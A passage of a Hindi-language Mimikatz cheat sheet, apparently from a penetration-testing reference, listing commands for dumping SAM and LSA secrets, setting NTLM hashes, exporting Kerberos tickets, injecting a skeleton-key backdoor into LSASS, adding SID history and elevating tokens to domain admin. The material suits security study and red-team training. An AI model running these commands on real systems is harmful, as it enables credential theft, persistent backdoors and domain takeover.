- **LSADUMP::SAM**: स्थानीय SAM डेटाबेस तक पहुंचें।

- `mimikatz "lsadump::sam" exit`

- **LSADUMP::Secrets**: रजिस्ट्री में संग्रहीत रहस्यों को डिक्रिप्ट करें।

- `mimikatz "lsadump::secrets" exit`

- **LSADUMP::SetNTLM**: एक उपयोगकर्ता के लिए एक नया NTLM हैश सेट करें।

- `mimikatz "lsadump::setntlm /user:targetUser /ntlm:newNtlmHash" exit`

- **LSADUMP::Trust**: ट्रस्ट प्रमाणीकरण जानकारी प्राप्त करें।
- `mimikatz "lsadump::trust" exit`

### विविध

- **MISC::Skeleton**: DC पर LSASS में एक बैकडोर इंजेक्ट करें।
- `mimikatz "privilege::debug" "misc::skeleton" exit`

### विशेषाधिकार वृद्धि

- **PRIVILEGE::Backup**: बैकअप अधिकार प्राप्त करें।

- `mimikatz "privilege::backup" exit`

- **PRIVILEGE::Debug**: डिबग विशेषाधिकार प्राप्त करें।
- `mimikatz "privilege::debug" exit`

### क्रेडेंशियल डंपिंग

- **SEKURLSA::LogonPasswords**: लॉग इन उपयोगकर्ताओं के लिए क्रेडेंशियल दिखाएं।

- `mimikatz "sekurlsa::logonpasswords" exit`

- **SEKURLSA::Tickets**: मेमोरी से केर्बेरोस टिकट निकालें।
- `mimikatz "sekurlsa::tickets /export" exit`

### सिड और टोकन हेरफेर

- **SID::add/modify**: SID और SIDHistory बदलें।

- जोड़ें: `mimikatz "sid::add /user:targetUser /sid:newSid" exit`
- संशोधित करें: _मूल संदर्भ में संशोधन के लिए कोई विशिष्ट कमांड नहीं है।_

- **TOKEN::Elevate**: टोकनों का अनुकरण करें।
- `mimikatz "token::elevate /domainadmin" exit`

### टर्मिनल सेवाएँ

- **TS::MultiRDP**: कई RDP सत्रों की अनुमति दें।

- `mimikatz "ts::multirdp" exit`

- **TS::Sessions**: TS/RDP सत्रों की सूची बनाएं।
- _मूल संदर्भ में TS::Sessions के लिए कोई विशिष्ट कमांड प्रदान नहीं की गई है।_

### वॉल्ट
